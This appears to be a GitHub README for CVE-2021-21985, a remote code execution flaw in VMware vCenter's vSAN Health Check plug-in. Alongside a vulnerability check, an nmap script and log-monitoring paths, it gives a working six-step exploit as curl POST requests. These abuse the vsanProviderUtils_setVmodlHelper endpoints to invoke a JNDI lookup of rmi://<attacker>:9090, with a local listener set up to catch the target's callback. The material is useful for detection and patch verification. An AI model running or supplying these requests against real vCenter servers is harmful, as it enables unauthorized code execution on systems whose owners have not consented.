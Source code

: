 
# CVE-2021-21985 (Vulnerable Code) 

![06_test_class_method](https://user-images.githubusercontent.com/3140111/120136760-2b152b80-c1d3-11eb-8bb7-392b629358f4.png)

CLASS/METHOD(s) available, a little sample for PoC purposes: com.vmware.vsan.client.services.capability.VsanCapabilityProvider 

```
[../snip]
getClusterCapabilityData
getHostCapabilityData
getHostsCapabilitiyData
getIsDeduplicationSupported
getIsEncryptionSupported
getIsLocalDataProtectionSupportedOnVc
getIsLocalDataProtectionSupportedOnCluster
getIsRemoteDataProtectionSupported
getIsObjectIdentitiesSupportedOnCluster
getIsHistoricalCapacitySupported
getIsPerfVerboseModeSupported
getIsPerfNetworkDiagnosticModeSupported
getIsPerfDiagnosticsFeedbackSupportedOnVc
getIsAdvancedClusterSettingsSupported
getIsRecreateDiskGroupSupported
getIsPurgeInaccessibleVmSwapObjectsSupported
getIsUpdateVumReleaseCatalogOfflineSupported
getIsVitOnlineResizeSupported
getIsImprovedCapacityMonitoringSupportedOnVc
getIsVmLevelCapacityMonitoringSupported
getIsWhatIfCapacitySupported
getIsHostReservedCapacitySupported
getIsUnmountWithMaintenanceModeSupported
getIsEvacuationStatusSupportedOnCluster
...
...
[../snip]
```

# CVE-2021-21985 (PoC)
The vSphere Client (HTML5) contains a remote code execution vulnerability due to lack of input validation in the Virtual SAN Health Check plug-in which is enabled by default in vCenter Server.

This manual inspec looks the existence of CVE-2021-21985 based on CLASS/METHOD(s) available by default on vCenter e.g. "/ui/h5-vsan/rest/*" sending a POST request and looking in response body (200) JSON data.

Manual inspection: 

```
# curl -s -k -X $'POST' -H $'Host: <target>' -H $'User-Agent: alex666' -H $'Content-Type: application/json' -H $'Connection: close' --data-binary $'{\"methodInput\":[{\"type\":\"ClusterComputeResource\",\"value\": null,\"serverGuid\": null}]}\x0d\x0a' $'https://<target>/ui/h5-vsan/rest/proxy/service/com.vmware.vsan.client.services.capability.VsanCapabilityProvider/getClusterCapabilityData'
```

![03_curl](https://user-images.githubusercontent.com/3140111/120148087-f95a8f80-c1e7-11eb-8977-e21c12477d29.png)

# PoC Exploit Released (1)
Credits: https://www.iswin.org/2021/06/02/Vcenter-Server-CVE-2021-21985-RCE-PAYLOAD/ <br/> 

Steps to reproduce: <br/> 

Start your python server to receive the connection from targeted system (vCenter) e.g <br/> 
```
# python3 -m http.server 9090
```
Step 1: set TargetObject to null <br/> <br/> 
POST /ui/h5-vsan/rest/proxy/service/&vsanProviderUtils_setVmodlHelper/setTargetObject HTTP/1.1<br/> 
{“methodInput”:[null]}<br/> 

```
# curl -i -s -k -X $'POST' -H $'Host: <target>' -H $'User-Agent: alex666' -H $'Content-Type: application/json' -H $'Connection: close' --data-binary $'{\xe2\x80\x9cmethodInput\xe2\x80\x9d:[null]}' $'https://<target>/ui/h5-vsan/rest/proxy/service/&vsanProviderUtils_setVmodlHelper/setTargetObject'
```

Step 2: setStaticMethod to payload <br/> <br/> 
POST /ui/h5-vsan/rest/proxy/service/&vsanProviderUtils_setVmodlHelper/setStaticMethod HTTP/1.1 <br/> 
{“methodInput”:[“javax.naming.InitialContext.doLookup”]} <br/> 

```
# curl -i -s -k -X $'POST' -H $'Host: <target>' -H $'User-Agent: alex666' -H $'Content-Type: application/json' -H $'Connection: close' --data-binary $'{\"methodInput\":[\"javax.naming.InitialContext.doLookup\"]}\x0d\x0a' $'https://<target>/ui/h5-vsan/rest/proxy/service/&vsanProviderUtils_setVmodlHelper/setStaticMethod'
```

Step 3: setTargetMethod to doLookup <br/> <br/> 
POST /ui/h5-vsan/rest/proxy/service/&vsanProviderUtils_setVmodlHelper/setTargetMethod HTTP/1.1 <br/> 
{“methodInput”:[“doLookup”]} <br/> 

```
# curl -i -s -k -X $'POST' -H $'Host: <target>' -H $'User-Agent: alex666' -H $'Content-Type: application/json' -H $'Connection: close' --data-binary $'\x0d\x0a{\"methodInput\":[\"doLookup\"]}\x0d\x0a' $'https://<target>/ui/h5-vsan/rest/proxy/service/&vsanProviderUtils_setVmodlHelper/setTargetMethod'
```
Step 4: setArguments with payload args <br/> <br/> 
POST /ui/h5-vsan/rest/proxy/service/&vsanProviderUtils_setVmodlHelper/setArguments HTTP/1.1 <br/> 
{“methodInput”:[["rmi://attacker:9090/alex666"]]} <br/> 

```
# curl -i -s -k -X $'POST' -H $'Host: <target>' -H $'User-Agent: alex666' -H $'Content-Type: application/json' -H $'Connection: close' --data-binary $'{\"methodInput\":[[\"rmi://<attacker>:9090/alex666\"]]}' $'https://<target>/ui/h5-vsan/rest/proxy/service/&vsanProviderUtils_setVmodlHelper/setArguments'
```

Step 5: initial payload class and methods <br/> <br/> 
POST /ui/h5-vsan/rest/proxy/service/&vsanProviderUtils_setVmodlHelper/prepare HTTP/1.1 <br/> 
{“methodInput”:[]} <br/> 

```
# curl -i -s -k -X $'POST' -H $'Host: <target>' -H $'User-Agent: alex666' -H $'Content-Type: application/json' -H $'Connection: close' --data-binary $'{\"methodInput\":[]}' $'https://<target>/ui/h5-vsan/rest/proxy/service/&vsanProviderUtils_setVmodlHelper/prepare'
```

Step 6: trigger method invoke, after thiis POST await some seconds and see your pytthon server log <br/> <br/> 
POST /ui/h5-vsan/rest/proxy/service/&vsanProviderUtils_setVmodlHelper/invoke HTTP/1.1 <br/> 
{“methodInput”:[]} <br/> 

```
# curl -i -s -k -X $'POST' -H $'Host: <target>' -H $'User-Agent: alex666' -H $'Content-Type: application/json' -H $'Connection: close' --data-binary $'{\"methodInput\":[]}\x0d\x0a' $'https://<target>/ui/h5-vsan/rest/proxy/service/&vsanProviderUtils_setVmodlHelper/invoke'
```

![exploit_01](https://user-images.githubusercontent.com/3140111/120621936-a8a09c00-c45e-11eb-9ff1-b8d7aee6f3fa.png)


# References: 
https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-21985 <br/>
https://www.vmware.com/security/advisories/VMSA-2021-0010.html <br/>
https://attackerkb.com/topics/X85GKjaVER/cve-2021-21985?referrer=home#rapid7-analysis </br>

# CVE-2021-21985 (NSE checker)

This script looks the existence of CVE-2021-21985 based on CLASS/METHOD(s) available by default on vCenter e.g. "/ui/h5-vsan/rest/*" sending a POST request and looking in response body (200) JSON data.

# Usage
```# nmap -p443 --script CVE-2021-21985.nse <target>```

# Output
```
---
-- @usage
-- nmap -p443 --script CVE-2021-21985.nse <target>
-- @output
-- PORT    STATE SERVICE
-- 443/tcp open  https
-- | CVE-2021-21985: 
-- |   VULNERABLE:
-- |   vCenter 6.5-7.0 RCE
-- |     State: VULNERABLE (Exploitable)
-- |     IDs:  CVE:CVE-2021-21985
-- |       The vSphere Client (HTML5) contains a remote code execution vulnerability due to lack of input 
-- |       validation in the Virtual SAN Health Check plug-in which is enabled by default in vCenter Server.
-- |     Disclosure date: 2021-05-28
-- |     References:
-- |_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-21985
```

![CVE-2021-21985](https://user-images.githubusercontent.com/3140111/120142112-01153680-c1de-11eb-87ca-aee4126f5fd8.gif)

# vCenter vSAN Health (console logs) 
PATH logs vCenter

```
# /var/log/vmware/vsan-health/
```
![03_vSAN-health](https://user-images.githubusercontent.com/3140111/120134765-1d5da700-c1cf-11eb-8c17-6df7012cdfb5.png)

# vSphere Client (console logs)
Monitoring the attacks  

```
# tail -f /var/log/vmware/vsphere-ui/logs/vsphere_client_virgo.log
```
![04_monitoring](https://user-images.githubusercontent.com/3140111/120135156-e8058900-c1cf-11eb-8b03-14656b0ee3d5.png)


# Author
Alex Hernandez aka <em><a href="https://twitter.com/_alt3kx_" rel="nofollow">(@\_alt3kx\_)</a></em>

